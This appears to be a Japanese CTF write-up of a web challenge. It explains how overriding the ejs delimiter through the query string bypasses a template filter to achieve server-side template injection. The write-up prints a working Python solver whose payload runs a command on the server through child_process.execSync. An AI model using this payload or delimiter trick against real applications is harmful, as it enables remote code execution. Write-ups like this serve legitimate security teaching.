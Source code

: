 各エンドポイントの概要は以下の通りです。

- POST `/template`
  - リクエストボディとして ejs のテンプレートである `tmpl` を受け取る
  - ただし、`tmpl` に ejs タグの開始記号である `<%` が含まれている場合、それに後続する文字列は `<%= name %>` と一致していなければならない
  - テンプレートはランダムに生成された UUID をファイル名とするファイルに保存される
- GET `/:template`
  - 保存されたテンプレートを任意の `query` でレンダリングした結果を返す
  - `query` には `name` が指定されることが想定されているが、特に制約はない
- GET `/`
  - `index.html` を返す

`/template` エンドポイントのバリデーションによって、たとえば下記のようなテンプレートを用いた SSTI は実現不可能であるように思えます。

```ｊｓ
<%- global.process.mainModule.require('child_process').execSync('/readflag') ~>
```

Express や ejs のタグについて調べてみると、下記のリンクが見つかりました。

https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data

上記のリンクによると、`res.render` の第2引数には、オプションとしてテンプレートに埋め込まれるパラメータだけではなく、カスタムの delimiter (デフォルトは `$`) も指定できるようです。

```js
// https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data より抜粋
app.get('/', (req, res) => {
  res.render('index', {foo: 'FOO', delimiter: '?'});
});
```

これをうまく利用すれば、`<%= ... %>` ではない書式で SSTI のペイロードを埋め込むことができます。例えば、`delimiter` を `~` にしておけば、`<~= ... ~>` が ejs のタグとして認識されるようになります。

この手法を用いて FLAG を取得するには、以下のようにすれば良いです。

1. `<~= 実行したいコード ~>`  を `tmpl` に指定したリクエストを `/template` に POST する。
2. リダイレクト先にアクセスする際に、クエリ文字列に `delimiter=~` を指定する (これにより、`res.render` の第二引数に `delimiter` を指定できる)

以下の solver を利用することで FLAG を取得することができました。

```python
import requests

S = requests.Session()

def genurl(path):
    return "http://168.119.235.41:9086{}".format(path)

res = S.post(genurl("/template"), allow_redirects=False, data={
    "tmpl": "<~- global.process.mainModule.require('child_process').execSync('/readflag') ~>",
    "name": "",
})

url = genurl(res.headers["Location"][:-6] + "?delimiter=~&name=a")
print("[*] URL={}".format(url))
print(S.get(url).text)
```

```text
$ python solve/solve.py 
[*] URL=http://168.119.235.41:9086/4e18c456-8450-41ed-83f7-cf7326e655a1?delimiter=~&name=a
hxp{W1ll_u_b3_my_V4l3nt1ne?}execute this binary on the server to get the flag!
```
